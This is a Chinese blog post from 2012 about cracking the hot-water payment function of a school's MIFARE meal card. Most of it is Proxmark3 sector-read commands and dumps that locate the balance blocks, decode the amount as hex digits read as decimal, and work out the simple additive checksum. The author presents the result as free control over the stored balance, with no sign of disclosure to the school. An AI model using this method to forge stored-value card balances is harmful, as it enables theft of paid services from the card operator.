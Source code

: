 title: "破解某学校饭卡打热水消费功能"
date: 2012-07-26 18:46:44
tags:
id: 84
comment: false
---

首先已经得到卡的每一个扇区密钥。
此MIFARE卡每一个扇区密钥都是一样的，
因此对于破解带来很大的帮助。
同时也带来了更大的安全隐患。
首先我获得了每一个扇区的数据，
导出这些数据。
然后拿去使用，再一次获取每一个扇区数据，
从而确定了，消费使用的是那些扇区。
进行对比后发现使用的是第4和第5快扇区。
对应变化数据块号是13，14，17.

消费前扇区数据
```

proxmark3&gt; hf mf rdsc 3 a ffffffffffff
--sector no:03 key type:00 key:64 85 9a 11 73 24
#db# READ SECTOR FINISHED

isOk:01
data:ff ff ff f9 80 69 19 96 3f 6b 81 04 f1 44 01 82
data:00 01 54 55 00 00 00 00 00 87 c3 d2 b4 00 00 00

data:00 01 54 55 00 00 00 00 00 87 c3 d2 b4 b4 00 00
data:00 00 00 00 00 00 ff 07 80 69 19 96 3f 6b 81 04
proxmark3&gt; hf mf rdsc 4 a ffffffffffff
--sector no:04 key type:00 key:64 85 9a 11 73 24
#db# READ SECTOR FINISHED

isOk:01
data:ff ff ff ff ff ff ff f9 80 69 19 96 3f 6b 81 04
data:00 01 54 55 00 00 00 00 00 87 c3 d2 b4 b4 b4 00

data:00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
data:00 00 00 00 00 00 ff 07 80 69 19 96 3f 6b 81 04

```


将钱完全消费后数据
```

proxmark3&gt; hf mf rdsc 3 a ffffffffffff
--sector no:03 key type:00 key:64 85 9a 11 73 24
#db# READ SECTOR FINISHED

isOk:01
data:ff ff ff f9 80 69 19 96 3f 6b 81 04 f1 44 01 82
data:00 00 00 00 00 00 00 00 00 87 c3 d2 b4 00 00 00

data:00 00 00 00 00 00 00 00 00 87 c3 d2 b4 b4 00 00
data:00 00 00 00 00 00 ff 07 80 69 19 96 3f 6b 81 04
proxmark3&gt; hf mf rdsc 4 a ffffffffffff
--sector no:04 key type:00 key:64 85 9a 11 73 24
#db# READ SECTOR FINISHED

isOk:01
data:ff ff ff ff ff ff ff f9 80 69 19 96 3f 6b 81 04
data:00 00 00 00 00 00 00 00 00 87 c3 d2 b4 b4 b4 00

data:00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
data:00 00 00 00 00 00 ff 07 80 69 19 96 3f 6b 81 04

```


然后我向卡里充值10元（正常充值）
```

proxmark3&gt; hf mf rdsc 3 a ffffffffffff
--sector no:03 key type:00 key:64 85 9a 11 73 24
#db# READ SECTOR FINISHED

isOk:01
data:ff ff ff f9 80 69 19 96 3f 6b 81 04 fa 44 01 82
data:00 10 00 10 00 10 00 ad 00 00 00 00 00 00 00 00

data:00 10 00 10 00 10 00 ad 00 00 00 00 00 00 00 00
data:00 00 00 00 00 00 ff 07 80 69 19 96 3f 6b 81 04
proxmark3&gt; hf mf rdsc 4 a ffffffffffff
--sector no:04 key type:00 key:64 85 9a 11 73 24
#db# READ SECTOR FINISHED

isOk:01
data:ff ff ff ff ff ff ff f9 80 69 19 96 3f 6b 81 04
data:00 10 00 10 00 10 00 ad 00 00 00 00 00 00 00 00

data:00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
data:00 00 00 00 00 00 ff 07 80 69 19 96 3f 6b 81 04

```


然后再去消费到剩下9.44元
```

proxmark3&gt; hf mf rdsc 3 a ffffffffffff
--sector no:03 key type:00 key:64 85 9a 11 73 24
#db# READ SECTOR FINISHED

isOk:01
data:ff ff ff f9 80 69 19 96 3f 6b 81 04 f1 44 01 82
data:00 09 44 4d 00 00 00 00 00 87 c3 d2 b4 00 00 00

data:00 09 44 4d 00 00 00 00 00 87 c3 d2 b4 b4 00 00
data:00 00 00 00 00 00 ff 07 80 69 19 96 3f 6b 81 04

```


到此为止，通过数据的比对，已经很明确了那些位是用来控制钱的金额和校验。
该卡使用16进制数来表示10进制的金额。
09 44 表示金额的小数点前后位。
校验位紧跟其后。
 09
+44
-----
 4d

 01
+54
-----
 55
校验算法也十分简单。
到此为止此卡的打热水功能已经完全顺心所欲。

此卡之所以叫做饭卡，当然还有打饭&超市消费的功能。
但是这个功能初步判断是实时的服务器验证，暂时没有有破解的门道！
